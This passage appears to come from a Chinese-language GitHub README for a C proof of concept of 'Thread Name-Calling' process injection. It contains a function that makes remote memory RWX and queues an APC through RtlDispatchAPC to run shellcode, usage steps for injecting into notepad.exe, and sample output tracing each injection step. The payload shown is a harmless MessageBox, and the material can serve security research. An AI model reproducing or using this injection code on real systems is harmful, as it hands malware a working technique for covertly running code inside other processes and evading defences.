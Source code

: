 ```c
BOOL RunInjected(HANDLE hProcess, PVOID shellcodePtr, SIZE_T payloadLen) {
    // 修改内存保护
    VirtualProtectEx(hProcess, shellcodePtr, payloadLen, PAGE_EXECUTE_READWRITE, &oldProtect);

    // 通过 APC 执行（使用 RtlDispatchAPC 作为代理）
    PVOID rtlDispatchApc = GetProcAddress(GetModuleHandleA("ntdll.dll"), MAKEINTRESOURCEA(8));
    QueueApcThread(hThread, rtlDispatchApc, shellcodePtr, 0, (PVOID)(-1));

    return TRUE;
}
```

## 使用方法

### 编译

```bash
./build.sh
```

### 运行

```bash
# 1. 启动目标进程
notepad.exe

# 2. 获取 PID
# 通过任务管理器或 Process Explorer

# 3. 执行注入
./thread_namecalling.exe <PID>

# 4. 与 notepad 交互（点击菜单、输入文字等）触发 APC
# 5. MessageBox 将弹出
```

### 预期输出

```
[*] Thread Name-Calling Injection
[*] Author: hasherezade (C implementation)

[+] Target PID: 1234
[+] Opened target process (PID 1234): 0x000000B8
[+] PEB base address: 0x000000C5A2D3E000
[+] Using PEB unused area: 0x000000C5A2D3E340
[+] Found thread TID=5678

[*] Step 1: Passing shellcode via thread name...
[+] Setting thread description (77 bytes)...
[+] Thread description set successfully
[+] Queueing APC to call GetThreadDescription...
[+] Using NtQueueApcThreadEx2
[+] APC queued successfully
[-] Waiting for buffer pointer (attempt 1/10)...
[+] Buffer pointer received: 0x000001A2B3C4D000

[*] Step 2: Executing injected code...
[+] Found thread TID=5678
[+] Changing memory protection to RWX...
[+] Memory protection changed (old: 0x04)
[+] Using RtlDispatchAPC as proxy
[+] Using NtQueueApcThreadEx2
[+] APC queued for execution!
```